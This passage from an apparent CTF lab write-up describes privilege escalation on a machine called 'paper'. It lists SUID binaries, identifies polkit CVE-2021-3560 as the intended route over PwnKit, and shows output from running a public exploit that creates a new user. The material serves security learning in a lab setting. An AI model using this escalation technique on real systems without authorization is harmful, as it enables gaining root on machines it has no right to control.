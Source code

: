 ```bash
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/qemu-bridge-helper
/usr/libexec/cockpit-session
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
/usr/libexec/Xorg.wrap

```

Ok this was a very confusing part!
This is what got me on tracks `/usr/lib/polkit-1/polkit-agent-helper-1`
and checking the forums confirmed it
also the author had the exploit on his github XD
still...its was not obvious at all
kinda normal as this vlnerability isnt that easy to identify
But it is old and If you used linpeas you probably did not miss it

Luckily I already did two rooms about this on tryhackme
First I compiled and ran a C exploit for "pwnkit" but failed
seems like the author patched that recently!

its actually `CVE-2021-3560` that is meant to be used
Not `CVE-2021-4034` (PWNKIT)...ha!

You can do it manually then using `dbus-send` like in [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

Or if you are kinda lazy too get a [github exploit](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)

Or you can write your own...

'ey! your choice...me I chose laziness this time

```bash
[dwight@paper tmp]$ touch exploit.py
[dwight@paper tmp]$ nano exploit.py
[dwight@paper tmp]$ python exploit.py
bash: python: command not found...

[dwight@paper tmp]$ python3 exploit.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit
id: 'ahmed': no such user
id: 'ahmed': no such user
id: 'ahmed': no such user
id: 'ahmed': no such user
id: 'ahmed': no such user
...

[+] User Created with the name of ahmed
[+] Timed out at: 0.00833322300032699
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface 'org.freedesktop.Accounts.User' on object at path /org/freedesktop/Accounts/User1005
```